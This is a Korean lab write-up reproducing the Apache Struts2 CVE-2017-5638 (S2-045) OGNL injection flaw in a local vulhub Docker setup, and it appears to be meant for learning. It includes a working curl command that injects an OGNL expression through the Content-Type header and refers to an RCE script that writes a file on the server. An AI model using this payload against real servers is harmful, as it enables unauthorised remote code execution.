




# CVE-2017-5638 (Struts2 OGNL 표현식 인젝션)
#### Contributors
- [백소정(@SoJeong-Baek)](https://github.com/SoJeong-Baek)

### 요약
- Apache Struts2 `2.3.5~2.3.31`, `2.5~2.5.10` 버전에서 Content-Type 헤더를 통한 OGNL 표현식 인젝션으로 인한 원격 코드 실행(RCE) 취약점입니다.
- Content-Type 헤더에 OGNL 표현식을 삽입하여 서버에서 임의의 명령을 실행할 수 있습니다.
- [vulhub/struts2/s2-045](https://github.com/vulhub/vulhub/tree/master/struts2/s2-045)
- [Apache Struts S2-045](https://struts.apache.org/docs/s2-045.html)

### 분석

### 재현절차
1. 터미널을 열어 아래 명령을 실행해 Struts2 2.3.30 취약 환경을 Docker로 구성합니다.
```bash
docker compose up -d
```
완료되면 `http://localhost:8080`에서 아래와 같은 Fileupload sample 페이지가 보입니다.


2. curl을 이용해 Content-Type 헤더에 OGNL 표현식을 삽입하여 취약점 존재 여부를 확인합니다.
```bash
curl -v http://localhost:8080/ \
  -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data"
```
응답 헤더에 `vulhub: 54289`가 있다는 것은 보낸 OGNL 표현식 `233*233`이 서버에서 실행되어 계산된 결과입니다.

3. Python 스크립트를 통해 원격 코드 실행(RCE)을 수행합니다.
```bash
python3 st2_rce.py
```
화면에 나타나는 `Status Code: 200`은 서버가 요청을 정상 처리했음을 나타냅니다. 응답 본문이 비어있는 것은 정상적이며, 실제 명령 실행 여부는 다음 단계에서 파일 생성으로 검증합니다.

4. 서버에서 파일이 생성됐는지 확인합니다.
```bash
docker compose exec struts2 ls -la /tmp/exploit.txt
```

이어서 파일 내용도 확인하면 `CVE-2017-5638 RCE Successful` 이라는 메시지를 볼 수 있습니다.
```bash
docker compose exec struts2 cat /tmp/exploit.txt
```
파일이 정상적으로 생성되고 내용이 출력되는 것은 서버에서 우리의 명령이 실제로 실행됐다는 증거이므로, RCE에 성공했다고 볼 수 있습니다.

### 실행결과
- curl을 이용한 Content-Type 헤더 OGNL 인젝션 취약점 확인

`vulhub: 54289` 헤더가 반환된 것을 확인할 수 있습니다.
- 파일 생성 확인


파일 생성과 내용 확인을 통해 서버 측에서 사용자 입력이 코드로 해석되고 실행되는 것을 확인했습니다.
